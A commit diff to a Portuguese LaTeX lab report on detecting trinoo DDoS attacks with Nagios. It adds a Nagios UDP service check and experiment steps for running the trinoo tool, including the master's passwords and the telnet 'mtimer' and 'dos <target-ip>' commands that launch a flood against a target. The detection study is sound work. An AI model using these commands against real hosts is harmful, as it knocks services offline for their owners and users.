

Before and after one commit to tureba/trinoo, a LaTeX document (doc/Relatorio_Nagios.tex): two parts of page 3 of 4 before the commit and two parts of page 4 of 5 after it, joined at a grey line, cut at the place of the change, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Update no relatório

```diff
--- a/doc/Relatorio_Nagios.tex
+++ b/doc/Relatorio_Nagios.tex
@@ -122,8 +137,23 @@
 Agora o \Nagios\ deve estar acessível pela interface web, onde é possível analisar os dados que
 ele coleta a partir das suas configurações padrão.
 
-%\subsection{Configuração do \Nagios}
 
+\subsection{Configuração do \Nagios}
+
+Para que o \Nagios\ detecte corretamente um ataque DDoS do \trinoo\ é necessário adicionar as
+seguintes linhas ao arquivo \emph{/etc/nagios3/conf.d/localhost\_nagios2.cfg}:
+
+\cbox{
+define service\{
+        use                    generic-service
+        host\_name             localhost
+        service\_description   UDP
+        check\_command         check\_udp!22
+        \}
+}
+
+Desta forma, quando um ataque DDoS estiver em execução, o \Nagios\ irá acusar falha no serviço,
+aumento de latência e/ou perda de pacotes.
 
 
 \subsection{Instalação do \trinoo}
@@ -150,6 +180,32 @@
 
 \section{Experimentos}\label{sec:experimentos}
 
+Serão configurados 5 computadores. O primeiro estará executando o \Nagios\ e será atacado pelos
+outros. O segundo irá executar o mestre do ataque, controlando o ataque dos zumbis. Todos os
+computadores terão clientes \trinoo\ sendo executados e com acesso ao alvo.
+
+Então cada zumbi terá de ser iniciado executando o cliente \trinoo\ no computador:
+
+\cbox{\$\ client/client}
+
+Para se iniciar o \trinoo\ mestre:
+
+\cbox{\$\ master/master
+?? g0rave}
+
+Agora, no computador com o mestre, lance o ataque:
+
+\cbox{\$\ telnet <ip-do-mestre> 27665
+Trying 127.0.0.1...
+Connected to localhost.
+Escape character is '\^\ $]$'.
+betaalmostdone
+mtimer <tempo-do-ataque>
+dos <ip-do-alvo>
+}
+
+Neste momento os zumbis devem começar o ataque ao IP do alvo, o que deve ser identificado através
+do monitoramento do \Nagios.
 
 
 \section{Conclusões}
```
Also changed, not shown: doc/Relatorio_Nagios.tex (24 more changed lines).
